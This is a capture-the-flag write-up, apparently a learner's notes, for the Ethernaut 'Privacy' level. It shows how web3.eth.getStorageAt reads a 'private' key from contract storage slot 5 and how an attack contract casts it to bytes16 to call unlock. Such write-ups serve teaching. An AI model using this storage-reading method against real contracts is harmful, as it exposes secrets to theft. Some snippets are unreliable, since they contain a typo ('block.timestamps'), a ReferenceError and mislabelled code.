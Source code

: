 12 Privacy 

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

- Understanding how storage works

- Understanding how parameter parsing works

- Understanding how casting works

Tips:

Remember that metamask is just a commodity. Use another tool if it is presenting problems. 
Advanced gameplay could involve using remix, or your own web3 provider.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true; //01 :[0]
  uint256 public ID = block.timestamp;//5f669cb3 :[1]
  uint8 private flattening = 10; //10 is 0a :[2] called flattenning
  uint8 private denomination = 255; //255 is ff :[2]
  uint16 private awkwardness = uint16(block.timestamps); //9cb3 :[2] data representation current timestamp coerced to 16bits 
  bytes32[3] private data; //we have three things init of Data Array [3],[4],[5]
//eight bits in one byte 




  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2])); //this mean [5]! this secret key that we need to get in order to unlock this contract 
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

```
>contract.address
'0x1FE73dC35aFc4c0FfCB515858Da6F13439D9647a'
```
```
>contract.abi
(4) [{…}, {…}, {…}, {…}]
0: {inputs: Array(1), stateMutability: 'nonpayable', type: 'constructor', constant: undefined, payable: undefined}
1: {inputs: Array(0), name: 'ID', outputs: Array(1), stateMutability: 'view', type: 'function', …}
2: {inputs: Array(0), name: 'locked', outputs: Array(1), stateMutability: 'view', type: 'function', …}
3: {inputs: Array(1), name: 'unlock', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
length: 4
[[Prototype]]: Array(0)
```
```
>await contract.locked()
true
```

//current contract is locked. locked is true. 


//gonna iterate for about six times
```solidity
let storage = []

let callbackFNConstructor = (index) => (error, contractData) => {
  storage[index] = ContractData
}
```


//gonna iterate for about six times cuz should be a maximum of six or less variables stored in storage 
```solidity
for(var i = 0; i < 6; i++) { //six loop iteration 
  web3.eth.getStorageAt(contract.address, i, callbackFNConstructor(i))
}
```
```
Promise {<pending>}[[Prototype]]: Promise[[PromiseState]]: "pending"[[PromiseResult]]: undefined
```

//errorでちゃった
```
VM316:4 Uncaught ReferenceError: ContractData is not defined
    at Object.callback (<anonymous>:4:20)
    at a (e4e9b69aea3571538dca60595571493ed3b7d30d.js:1:269639)
    at a (e4e9b69aea3571538dca60595571493ed3b7d30d.js:1:169902)
    at p.run (e4e9b69aea3571538dca60595571493ed3b7d30d.js:1:84233)
    at d (e4e9b69aea3571538dca60595571493ed3b7d30d.js:1:83727)
```
//eight bits in one byte 
```
10 is 0a 
255 is ff 
```
```solidity
/PrivacyAttack.sol 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Privacy.sol";

contract PrivacyAttack {
    Privacy target;

    constructor(address _targetAddress) public {
        target = Privacy(_targetAddress);
    }

    function unlock(bytes32 _slotValue) public {
        bytes16 key = bytes16(_slotValue);
        target.unlock(key);
    }

}
```

Privacy.sol のaddressを確認
```
>contract.address
'0x1FE73dC35aFc4c0FfCB515858Da6F13439D9647a'
```

//PrivacyAttack contract をdeploy using by '0x1FE73dC35aFc4c0FfCB515858Da6F13439D9647a'
```
[block:10918283 txIndex:2]from: 0xF6e...f30F5to: PrivacyAttack.(constructor)value: 0 weidata: 0x608...9647alogs: 0hash: 0x11f...c9d3b
```

//Praivacy.solからunlock用のkeyを抜き出す
```
>await web3.eth.getStorageAt(contract.address, 5, console.log)
'0x30d5f6d82f24a04bddbb8af089e145ace7bbc57351b4878ed559b598c6182467'
```

//unlock with key '0x30d5f6d82f24a04bddbb8af089e145ace7bbc57351b4878ed559b598c6182467'
```
[block:10918324 txIndex:3]from: 0xF6e...f30F5to: PrivacyAttack.unlock(bytes32) 0x5d4...3ee47value: 0 weidata: 0xec9...82467logs: 0hash: 0x039...cc972
```
```
>await contract.locked()
false
```

Nothing in the ethereum blockchain is private. 
The keyword private is merely an artificial construct of the Solidity language. 
Web3s getStorageAt(...) can be used to read anything from storage.
 It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It cant get much more complicated than what was exposed in this level. 
For more, check out this excellent article by "Darius": How to read Ethereum contract storage






